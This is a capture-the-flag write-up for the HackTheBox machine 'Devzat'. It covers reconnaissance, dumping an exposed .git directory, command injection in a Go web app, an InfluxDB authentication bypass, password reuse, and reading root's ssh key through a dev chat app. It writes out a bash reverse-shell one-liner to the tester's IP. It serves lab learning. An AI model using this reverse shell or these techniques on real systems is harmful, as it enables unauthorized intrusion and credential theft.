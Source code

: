 = Devzat =

== Introduction ==

Devzat is a box in HackTheBox that involves heavily exploiting a user created chat app. The chat app
does not seem to be usable for initial exploitation. However, after initial access, the app becomes
a great source of system enumeration from the chat logs, as well as being able to be used to privesc
to root. The initial access is gained from a subdomain hosting an incomplete CRUD app for managing
an inventory of pets that has the .git directory publicly available. With access to the git folder,
we can get the source for the web app and discover a command injection vulnerability that can be
exploited with Burpsuite. Initial access as Patrick allows us to read his chat logs, revealing an
Influxdb instance is running that is vulnerable to an authentication bypass. The database contains
credentials for another user, Catherine, who we are then able to login as. Catherine's chat log
reveals there is a development version of the chat app running on port 8443, and there is a backup
file on the system. Analysis of the backed up files shows we can use app on port 8443 to read files
as root. We can then read roots ssh key to login as root.

== Enumeration ==

=== Nmap ===

From the nmap results, we can see that this is a webserver with an unidentified app on port 8000.
Based on the scan on port 8000, it seems to be using a go library called [[https://github.com/karfield/ssh2go|ssh2go]]

{{{class="nohighlight"
Nmap scan report for devzat.htb (10.10.11.118)
Host is up (0.022s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c2:5f:fb:de:32:ff:44:bf:08:f5:ca:49:d4:42:1a:06 (RSA)
|   256 bc:cd:e8:ee:0a:a9:15:76:52:bc:19:a4:a3:b2:ba:ff (ECDSA)
|_  256 62:ef:72:52:4f:19:53:8b:f2:9b:be:46:88:4b:c3:d0 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41
|_http-title: devzat - where the devs at
|_http-server-header: Apache/2.4.41 (Ubuntu)
8000/tcp open  ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Go
| ssh-hostkey: 
|_  3072 6a:ee:db:90:a6:10:30:9f:94:ff:bf:61:95:2a:20:63 (RSA)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.92%I=7%D=7/5%Time=62C472E7%P=x86_64-pc-linux-gnu%r(NUL
SF:L,C,"SSH-2\.0-Go\r\n");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=7/5%OT=22%CT=1%CU=34441%PV=Y%DS=2%DC=T%G=Y%TM=62C47312
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11
OS:NW7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT      ADDRESS
1   21.19 ms 10.10.14.1
2   21.28 ms devzat.htb (10.10.11.118)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
}}}

=== Website - [[http://devzat.htb]] ===

Initial scanning shows the box has a website up. Trying to navigate to the website redirects us to
[[http://devzat.htb]]. After updating our /etc/hosts, we are able to see the webpage.

{{{class="nohighlight"
trent@TMDeal-kali[Devzat]$ cat /etc/hosts
10.10.14.1    devzat.htb
}}}

{{local:../images/devzat/website/homepage.png|http://devzat.htb Homepage}}

Not much about the site itself is interesting. However, there is a message at the bottom informing
the reader that they are invited to try out their chat app.

{{local:../images/devzat/website/chat_app_start_instructions.png|Chat app usage}}

When running the instructed command, you may receive an error about no matching host key type. This
error can be resolved by adding a few lines to ~/.ssh/config

{{{class="nohighlight"
Host devzat.htb
	HostName devzat.htb
	User dev
	PubkeyAcceptedAlgorithms +ssh-rsa
	HostkeyAlgorithms +ssh-rsa
}}}

Then we can run the command to gain access to the chat app

{{local:../images/devzat/chat_app/initial_connection.png|Initial Connection}}

=== Chat App First Look ===

With just the basic level of access we have, there is not much that can be done with the app right
now. We will come back to this at a later point

=== Subdomin - [[http://pets.devzat.htb]] ===

Taking a look back at port 80, since we needed to add an entry to /etc/hosts, it may be worthwhile
to scan for subdomains. We will scan for subdomains using Gobuster.

{{local:../images/devzat/website/pets/gobuster_subdomain_discovery.png|Pets Subdomain Discovery}}

Our scan finds one valid subdomain at [[http://pets.devzat.htb]] The homepage is an incomplete CRUD
app.

{{local:../images/devzat/website/pets/homepage.png|http://pets.devzat.htb Homepage}}

The most that can be done is adding a pet to the pet inventory, but its not hooked up to a database
so nothing saves. Running Gobuster to find other endpoints shows that [[http://pets.devzat.htb/.git/]]
is publicly readable. We can grab the contents of the folder with
[[https://pypi.org/project/git-dumper/|git-dumper]], but we can also just download the directory
with a tool like wget.

{{{class="nohighlight"
trent@TMDeal-kali[Devzat]$ git-dumper http://pets.devzat.htb/.git pets
...
...
...
trent@TMDeal-kali[Devzat]$ ls -al pets/
total 9776
drwxr-xr-x  5 trent trent    4096 Jul 26 17:44 .
drwxrwxrwt 28 root  root    12288 Jul 26 17:44 ..
drwxr-xr-x  2 trent trent    4096 Jul 26 17:44 characteristics
drwxr-xr-x  7 trent trent    4096 Jul 26 17:44 .git
-rw-r--r--  1 trent trent      25 Jul 26 17:44 .gitignore
-rw-r--r--  1 trent trent      88 Jul 26 17:44 go.mod
-rw-r--r--  1 trent trent     163 Jul 26 17:44 go.sum
-rw-r--r--  1 trent trent    4420 Jul 26 17:44 main.go
-rwxr-xr-x  1 trent trent 9957033 Jul 26 17:44 petshop
-rwxr-xr-x  1 trent trent     123 Jul 26 17:44 start.sh
drwxr-xr-x  4 trent trent    4096 Jul 26 17:44 static
}}}

This is probably the source code for the pets web application. Inside of main.go, there is a line
where that takes out input without sanitizing it and passes it to `exec.Command`. This means we can
inject our own commands into this command and gain remote code execution

{{local:../images/devzat/git/main_execs_sh.png|Call to exec.Command}}

== Shell as Patrick ==

To test if we can properly execute code, we will just see if we can get the contents of /etc/passwd

{{local:../images/devzat/git/burp_payload.png|Burp Payload}}
{{local:../images/devzat/git/dumping_etc_passwd.png|Contents of /etc/passwd}}

Now that we now we can actually exploit this, we can execute a callback to a netcat listener.

We base64 encrypt the command `bash -i >& /dev/tcp/10.10.14.7/4444 0>&1` and then decrypt and
execute it in a one liner. This is done to avoid messing up the payload with special characters like
`"` or `'`.

{{local:../images/devzat/git/rce_request.png|Sending the request with Burp}}
{{local:../images/devzat/shell_as_patrick.png|Shell as Patrick}}

From there, we can grab Patrick's ssh key for a better shell experience

{{local:../images/devzat/shell_as_patrick_ssh.png|Shell as Patrick}}

== Shell as Catherine ==

=== Interesting ports ===

After running linpeas, we can see that there are some ports that are open locally that we could not
previously access

{{local:../images/devzat/linpeas/active_ports.png|Open local ports}}

Right now, we do not know what these ports do, so we will look around some more.

=== Patrick Chat Log ===

We can see Patrick's chat log in their app by logging into it while logged into the machine

{{local:../images/devzat/patrick_chat_log.png|Patrick chat log}}

Looking up info on Influxdb shows that it runs on port 8086 by default. We can check the version of
Influxdb running by making a HEAD request with curl on port 8086

{{local:../images/devzat/influxdb/influxdb_version.png|Influxdb version}}

Looking up "Influxdb 1.7.5" on google shows results for
[[https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933|CVE-2019-20933]]. 

With this exploit, we can bypass authentication and gain access to the database as an admin. We need
to port forward with ssh in order to access the database on our machine.

`ssh -L 8086:127.0.0.1:8086 patrick@10.10.11.118 -i patrick_id_rsa`.

{{local:../images/devzat/influxdb/admin_access.png|Login as admin on Influxdb}}

From there, we can dump the data from the users table

{{local:../images/devzat/influxdb/user_passwords.png|Database dump}}

This reveals a few users and their passwords, but Catherine sticks out because that is a user on the
box. Attempting to use this password to switch users to Catherine is successful

{{local:../images/devzat/shell_as_catherine.png|Shell as Catherine}}
{{local:../images/devzat/user_get.png|User flag}}

== Shell as root ==

Now that we are Catherine, lets examine her chat log like we did to Patrick.

{{local:../images/devzat/catherine_chat_log.png|Catherine chat log}}

The chat log mentions the development version of the chat app is up on port 8443, and the source
code is in a backup file. Checking in /var/backup we find archives of the development and main
version.

{{local:../images/devzat/chat_app/backup_files.png|Backup files}}

Extracting and checking the this version of the code shows a new command `file` has been added that
allows reading files on the system. A password is required, but it is hardcoded into the app, so we
can just read it. Since this program is running as root, we can read roots ssh key

{{local:../images/devzat/dev_chat_app/pass_for_reading_files.png|Command password}}
{{local:../images/devzat/dev_chat_app/root_ssh_key.png|Reading root ssh key}}

Then we can just ssh as root

{{local:../images/devzat/shell_as_root.png|Shell as root}}
{{local:../images/devzat/root_get.png|Root flag}}
